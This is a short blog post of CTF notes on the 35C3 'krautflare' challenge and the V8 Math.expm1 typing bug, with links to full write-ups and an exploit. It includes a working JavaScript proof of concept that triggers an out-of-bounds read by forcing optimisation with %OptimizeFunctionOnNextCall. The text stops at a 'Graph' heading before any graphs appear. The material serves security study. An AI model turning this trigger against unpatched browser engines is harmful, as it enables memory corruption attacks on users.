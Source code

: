 ```yaml
---
layout: post
title:  "Problems about Math.Expm1 Bug in V8"
date:   2019-09-05 00:00:00 +0000
categories: jekyll update
---
```


## 0x00 Overview

This is some of my notes about `krautflare` challenge in 35C3 CTF, and is not a complete write-up for this challenge. For a complete write-up, please read [this](https://abiondo.me/2019/01/02/exploiting-math-expm1-v8/) and [this](https://www.jaybosamiya.com/blog/2019/01/02/krautflare/). [This](https://github.com/vngkv123/aSiagaming/blob/master/Chrome-v8-Math.expm1/exploit.js) is also a complete exploit. I will discuss some of problems I encountered and how I solved them when I was working on this challenge.

### PoC

Here is the working PoC that can triggers OOB read.

```javascript
function f(v)
{
	const arr = [1.1, 2.2, 3.3];
	const o = {z1: -0}
	let res = Object.is(Math.expm1(v), o.z1);
	return arr[res * 1337];
}
f("a");
%OptimizeFunctionOnNextCall(f);
f("a");
%OptimizeFunctionOnNextCall(f);
/* or
for (var i = 0; i < 0x4000; i++)
	f("a");
*/
print(f(-0));
```

### Graph

Here are graphs before and after `SimplifiedLowring` phase, the critical phase that triggers OOB access.
